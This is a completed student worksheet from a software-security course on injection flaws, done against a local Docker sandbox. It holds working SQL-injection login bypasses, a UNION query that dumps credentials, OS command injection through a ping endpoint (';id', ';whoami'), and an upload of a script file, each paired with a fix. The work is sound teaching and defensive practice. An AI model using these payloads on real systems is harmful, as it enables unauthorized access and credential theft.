








# Worksheet 4 — Injection & Input Handling (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 4**
> **Aligned:** OWASP 2025 **A05 Injection** · **CWE-89** (SQLi), **CWE-78** (OS command injection), **CWE-434** (unrestricted upload)
> **Signature game:** 🐉 **SQLi Boss Fight** — each successful injection lands a "hit" on the boss; the boss falls when you dump every credential and land an RCE.

> ⚠️ **Ethics note:** All payloads here are for the provided sandbox (`vulnerable_app.py`) and your own DVWA/Juice Shop containers **only**. Never test systems you do not own or have written permission to test. Unauthorized injection is a crime under most computer-misuse laws.

## Part 1 — Student Information 🟢

| Name | Student ID | Date | Group |
|------|------------|------|-------|
| Panaikron Marohabut | 6631503126 | 2026-09-11 | |

## Part 2 — Lecture Questions 🟢

Answer in 2–4 sentences each.

1. Why does a **parameterized query** (`execute(sql, (params,))`) defeat SQL injection, while string formatting (`"... '%s'" % user`) does not? Reference how the database treats data vs. code.

ANSWER : A "parameterized query" separates the SQL structure from user-supplied data. The database parses the SQL code first and then binds the user input only as a value, so characters such as quotes cannot change the query structure. String formatting mixes the input directly into the SQL string, allowing user data to become SQL code.

2. In the `/ping` endpoint, `subprocess.run("ping -c 1 " + host, shell=True)` is vulnerable. Explain how `shell=True` turns user input into **CWE-78**, and how an argument array (`["ping","-c","1",host]`) removes the shell.

ANSWER : With shell=True, the whole command string is passed to the operating-system shell, which interprets characters such as ;, |, and $() as "shell syntax". This allows user input to become additional commands, causing OS Command Injection (CWE-78). Using an argument array with shell=False runs the program directly and treats host as one literal argument instead of shell code.

3. Distinguish **input validation** (allow-list) from **output handling**. Why is validation alone insufficient defense for SQLi?

ANSWER : "Input validation" checks whether incoming data matches an expected type, length, range, or format, preferably using an allow-list. "Output handling" controls how data is represented or encoded when it is sent to another context or interpreter. Validation alone is "not enough for SQL injection" because unexpected input may still reach the database, so parameterized queries are required to keep data separate from SQL code.

4. The `/upload` route saves any filename to disk (**CWE-434**). What two properties must a directory and a filename have for an upload to become remote code execution, and which does `solution_app.py` remove?

ANSWER : For an upload to become RCE, the uploaded file must be executable by the server, and it must be stored in a web-accessible directory where the server is allowed to execute it. In this lab, the upload directory is not executable, and solution_app.py also removes the dangerous file-type condition by allowing only safe extensions.

5. What is a **UNION-based** SQLi, and why must the injected `SELECT` return the same number of columns as the original query? Relate to `/search?q=' UNION SELECT username,password FROM users--`.

ANSWER : UNION-based SQL injection uses "UNION" to combine the original query results with data from another "SELECT". The injected "SELECT" must return the same number of columns as the original query, so "/search?q=' UNION SELECT username,password FROM users--" tries to return usernames and passwords through the search result.


## Part 3 — Hands-on Lab (150 min)

**Learning goals:** extract data via SQLi, achieve OS command injection, exploit an unrestricted upload, then prove each fix in `solution_app.py` blocks the payload.

**Prerequisites:** Docker + Docker Compose, `curl`, a browser. Working dir: `labs/week04-injection/`.

### Environment setup

```bash
cd labs/week04-injection
docker compose up            # builds python:3.12-slim, installs flask, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: injection-lab, port 8080)
```

Optional secondary targets:

```bash
docker run --rm -it -p 80:80 vulnerables/web-dvwa        # DVWA  -> http://localhost
docker run --rm -p 3000:3000 bkimminich/juice-shop       # Juice Shop -> http://localhost:3000
```

**What to submit per task:** the exact **payload/command**, a **screenshot** of the response proving success, and a **2–3 sentence mitigation** in your own words.

---
*Note: Port 8080 was unavailable on the host machine, so the Docker host port was changed to 8180 while the container still uses port 5000.*

🟢 **Task 0 — Onboarding (5 min).** Browse to `http://localhost:8080/login?user=alice&pw=alicepw` and confirm `Welcome alice`. Note the seeded users (`alice`, `bob`). Screenshot the working app. *Deliverable: screenshot.*

**Screenshot**



**Before you start — see why concatenation is the flaw** 🔬 Type any input and watch which characters the database will parse as *SQL* rather than as a name. The point is not the payload; it is that with concatenation the input becomes syntax, and with a parameterised query it structurally cannot. You will be asked to state that difference in your own words in Task 5.

```sim
sqli-parse
```

🟢 **Task 1 — Auth bypass via SQLi (25 min) 🐉 Hit #1.**
- *Goal:* log in as `alice` with **no valid password**.
- *Steps:* hit `/login?user=alice'--&pw=x`, then `/login?user=x' OR '1'='1'--&pw=x` (the trailing `--` is required: without it, SQL binds `AND` tighter than `OR`, so `... OR '1'='1' AND password='x'` matches no row). Observe the comment in the query at lines 61–63 of `vulnerable_app.py`.
- *Deliverable:* both URLs + screenshot of `Welcome alice` + explain why `--` and `OR '1'='1` work.

### Task 1 Answer (6631503126)

**Payload 1 — `alice'--`**

```text
http://localhost:8180/login?user=alice'--&pw=x
```

Result:

```text
Welcome alice
```

Why it works:
The payload `alice'--` closes the username string using `'`. The `--` then comments out the remaining part of the SQL query, including the password condition. As a result, the application only checks whether the username is `alice`, allowing the attacker to log in without knowing the correct password.

**Screenshot**



**Payload 2 — `x' OR '1'='1'--`**

```text
http://localhost:8180/login?user=x%27%20OR%20%271%27%3D%271%27--&pw=x
```

Result:

```text
Welcome alice
```

Why it works:
The payload `x' OR '1'='1'--` changes the SQL condition so that `'1'='1'` is always true. The `--` comments out the remaining password check, causing the WHERE condition to match a user record. Since the application retrieves the first matching row, it returns `alice`.

**Screenshot**



**Mitigation**

The vulnerable code should be replaced with a parameterized query that separates the SQL structure from user-supplied input, for example:

```python
cursor.execute(sql, (user, pw))
```

instead of constructing the query using string concatenation or formatting such as:

```python
"%s" % (user, pw)
```

With parameterized queries, the input is bound only as a data value and cannot be interpreted as SQL syntax. Therefore, characters such as `'`, `--`, or `OR` can no longer modify the structure of the SQL query.

🟢 **Task 2 — Credential dump via UNION SQLi (30 min) 🐉 Hit #2.**
- *Goal:* exfiltrate every username **and password** from the `users` table.
- *Steps:* request `/search?q=' UNION SELECT username,password FROM users--`. Confirm `alice:alicepw` and `bob:bobpw` appear.
- *Deliverable:* payload + screenshot of dumped credentials + note on why column count must match.

### Task 2 Answer (6631503126)

**Payload**

Raw (readable form):

```text
http://localhost:8180/search?q=' UNION SELECT username,password FROM users--
```

URL-encoded (used in browser/curl):

```text
http://localhost:8180/search?q=%27%20UNION%20SELECT%20username,password%20FROM%20users--
```

**Result**

```text
1:alice
2:bob
3:admin
admin:FLAG{sqli_demo}
alice:alicepw
bob:bobpw
```

**Note — why column count must match**

The original query selects two columns (`id`, `username`). `UNION` requires both `SELECT` statements to return the same number of columns, otherwise SQLite raises an error. That is why we inject `SELECT username, password` (two columns) to match the original query and successfully dump all credentials.

**Screenshot**



**Mitigation**

Use a parameterized query so the search term is bound as a data value:

```python
q = "SELECT id, username FROM users WHERE username LIKE ?"
db().execute(q, ("%" + term + "%",)).fetchall()
```

🟢 **Task 3 — OS command injection (30 min) 🐉 Hit #3.**
- *Goal:* run an arbitrary command through `/ping`.
- *Steps:* request `/ping?host=127.0.0.1;id` then `/ping?host=$(whoami)` (URL-encode if needed). Capture the injected command's output.
- *Deliverable:* both payloads + screenshot of `id`/`whoami` output + explanation of the `shell=True` flaw (CWE-78).

### Task 3 Answer (6631503126)

**Payload 1 — `127.0.0.1;id`**

```text
http://localhost:8180/ping?host=127.0.0.1;id
```

Result:

```text
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 1: ping: not found
```

Logic: `;` separates commands, so the shell runs `id` after `ping`. We see `uid=0(root)` meaning the container runs as root. (`ping: not found` is because the image lacks ping, but `id` still executed.)

**Screenshot**



**Payload 2 — `127.0.0.1;whoami`**

```text
http://localhost:8180/ping?host=127.0.0.1;whoami
```

Result:

```text
root
/bin/sh: 1: ping: not found
```

Logic: `;whoami` runs `whoami` as a separate command, printing `root` — confirming the attacker can run arbitrary OS commands inside the container.

**Screenshot**



**Why `shell=True` is the flaw (CWE-78)**

```python
out = subprocess.run("ping -c 1 " + host, shell=True, capture_output=True, text=True)
```

`shell=True` passes the whole string to `/bin/sh`, so `;`, `|`, `$()` become shell syntax and user input turns into extra commands (CWE-78).

**Mitigation**

```python
import re

if not re.match(r"^[0-9.]+$", host):
    return "invalid host", 400
out = subprocess.run(["ping", "-c", "1", host], capture_output=True, text=True)
```

Using `shell=False` + argument array passes `host` as a literal value, bypassing the shell entirely so `;` and `$()` have no special meaning.

🟢 **Task 4 — Unrestricted upload (25 min) 🐉 Hit #4.**
- *Goal:* show the upload accepts a dangerous file type with no checks (CWE-434).
- *Steps:* `GET /upload` (form), then upload a file named `shell.py`. Confirm `saved to /tmp/uploads/shell.py`. Discuss: if `UPLOAD_DIR` were web-served or executed, this is the RCE chain (here the dir is **not** served, so document the missing control rather than claiming auto-RCE).
- *Deliverable:* upload command/screenshot + 2–3 sentences on why extension allow-listing matters.

### Task 4 Answer (6631503126)

**Upload command**

```bash
echo "print('pwned')" > shell.py
curl -F "f=@shell.py" http://localhost:8180/upload
```

**Result**

```text
saved to /tmp/uploads/shell.py
```

The application accepted a `.py` file without any extension check, confirming CWE-434 (Unrestricted Upload).

**Screenshot**



**Why extension allow-listing matters**

Without extension allow-listing, an attacker can upload executable files such as `.py`, `.php`, or `.sh`. If the upload directory were web-served or executed by the server, this would become remote code execution (RCE). In this lab the upload directory is not served, so RCE does not happen automatically — but the missing control is still a vulnerability. Allow-listing only safe extensions (e.g. `.jpg`, `.png`, `.pdf`) ensures that executable file types are rejected, breaking the RCE chain before it starts.

**Task 5 — Defend / fix it (35 min) 🛡️ Boss defeated.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–4.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then run the fixed app on the same compose env:
  ```bash
  docker compose run --rm --service-ports injection-lab bash -c "pip install --no-cache-dir flask && python solution_app.py"
  ```
  Re-fire each payload from Tasks 1–4. Expected: `Login failed`, no credential dump, `invalid host` (400) on `127.0.0.1;id`, and `file type not allowed` for `shell.py`.
- *Deliverable:* screenshots of all four failures + name the fix line for each (parameterized query L52–55 login / L62–66 search, `shell=False`+regex L74–77, `secure_filename`+allow-list L86–93).

### Task 5 Answer (6631503126)

**Setup**

```bash
docker compose down
docker compose run --rm --service-ports injection-lab bash -c "pip install --no-cache-dir flask && python solution_app.py"
```

**Results — all four payloads blocked**

| Task | Payload | Result | Fix |
|------|---------|--------|-----|
| Task 1 | `alice'--` | `Login failed` | parameterized query L52–55 |
| Task 2 | `UNION SELECT username,password` | (empty) | parameterized query L62–66 |
| Task 3 | `127.0.0.1;id` | `invalid host` (400) | `shell=False` + regex L74–77 |
| Task 4 | `shell.py` upload | `file type not allowed` (400) | `secure_filename` + allow-list L86–93 |

**Screenshot**



## Part 4 — Reflection

1. **CWE/OWASP mapping:** map each of your four exploits to its CWE (89/78/434) and to OWASP 2025 **A05 Injection**.

**Answer:**

| Task | Exploit | CWE | OWASP 2025 |
|------|---------|-----|------------|
| Task 1 | SQLi auth bypass | CWE-89 | A05 Injection |
| Task 2 | UNION SQLi credential dump | CWE-89 | A05 Injection |
| Task 3 | OS command injection | CWE-78 | A05 Injection |
| Task 4 | Unrestricted file upload | CWE-434 | A05 Injection |

All four exploits fall under OWASP 2025 A05 Injection because user input reaches an interpreter (SQL engine, OS shell, filesystem) without proper separation between data and code.

2. **Real breach:** the **2017 Equifax breach** exposed ~147M people after attackers exploited a known input-handling flaw (Apache Struts CVE-2017-5638). In 3–4 sentences, connect that failure to the lessons in this lab (untrusted input reaching a powerful interpreter; the cost of an unpatched/unvalidated input path).

**Answer:**

The Equifax breach happened because attackers sent crafted input to an Apache Struts endpoint that passed it to the OGNL expression engine — a powerful interpreter — without proper validation. This is the same pattern as this lab: untrusted input reaches an interpreter (SQL, shell, filesystem) and gets executed as code. Equifax had a patch available for months but did not apply it, showing that even a known vulnerability can cause massive damage if the input path is not fixed. The lesson is that input must always be separated from the interpreter, and patches must be applied promptly.

3. **Best mitigation:** of parameterized queries, allow-list validation, least privilege, and avoiding `shell=True`, which single control would have prevented the most damage in this lab, and why?

**Answer:**

Parameterized queries would have prevented the most damage in this lab. Tasks 1 and 2 (SQLi) were the most serious exploits because they exposed credentials and allowed auth bypass — both stopped immediately by parameterized queries. While `shell=False` and allow-list validation are important for Tasks 3 and 4, the SQL injection attacks caused the greatest data exposure, and a single control (parameterized queries) blocks both.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the same image as the evidence**. When the evidence is a browser page, a DevTools panel or a rendered response, put that terminal **beside the browser and capture the whole screen** — a cropped window carries nothing that identifies you, and the lab's own output is byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
  2. **Why does your fix actually stop it** — and what could still break it?

**Answer:**

1. I sent crafted input (`'--`, `;id`, `shell.py`) through the endpoints. The vulnerabilities worked because the app concatenated user input directly into SQL, shell commands, and file paths — so my input became code.

2. The fix uses parameterized queries, `shell=False`, and extension allow-listing to separate input from the interpreter. What could still break it: an overly broad allow-list, a permissive regex, or excessive database privileges.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

### AI Audit Answer (6631503126)

**1. AI answer (fix for SQLi login)**

I asked an AI to fix the SQL injection in the `/login` endpoint. It suggested:

```python
q = "SELECT id, username FROM users WHERE username = '%s' AND password = '%s'" % (user.replace("'", "''"), pw.replace("'", "''"))
```

**2. What's wrong with it**

The AI's fix uses `replace("'", "''")` to escape single quotes, but this is an incomplete fix:
- It only handles single quotes, not other SQL metacharacters or encoding tricks (e.g. backslash escapes, Unicode).
- It still uses string formatting (`%s`), so the input is still concatenated into the query structure.
- A crafted input like `\` or certain multi-byte sequences could still bypass the escape.

**3. Correct, verified version**

```python
q = "SELECT id, username FROM users WHERE username = ? AND password = ?"
row = db().execute(q, (user, pw)).fetchone()
```

The AI's output was insufficient because escaping is a workaround, not a structural fix. Parameterized queries separate data from code at the database level, making injection impossible regardless of what characters the input contains.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.

*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*

### Comprehension & Prompt Answer (6631503126)

**A. Explain in Plain English**

The vulnerable app takes user input from URL parameters and pastes it directly into SQL queries, shell commands, and file paths. Because there is no separation between the input and the code that runs it, an attacker can type special characters like `'`, `;`, or `--` to change what the query or command does — turning data into executable code.

**B. Prompt Problem**

**Final prompt:**

```
Fix the SQL injection in this Flask login endpoint. Use a parameterized query with a placeholder (?), not string formatting. Return only the fixed code for the query line.

def login():
    user = request.args.get("user", "")
    pw = request.args.get("pw", "")
    q = "SELECT id, username FROM users WHERE username = '%s' AND password = '%s'" % (user, pw)
    row = db().execute(q).fetchone()
    return ("Welcome %s\n" % row[1]) if row else "Login failed\n"
```

**Verified result:**

```python
q = "SELECT id, username FROM users WHERE username = ? AND password = ?"
row = db().execute(q, (user, pw)).fetchone()
```

I tested this with `curl "http://localhost:8180/login?user=alice'--&pw=x"` and got `Login failed` — the exploit no longer works. The prompt was precise enough because it specified the exact fix method (parameterized query with `?` placeholder) and the exact scope (only the query line), so the AI could not suggest a workaround like escaping.
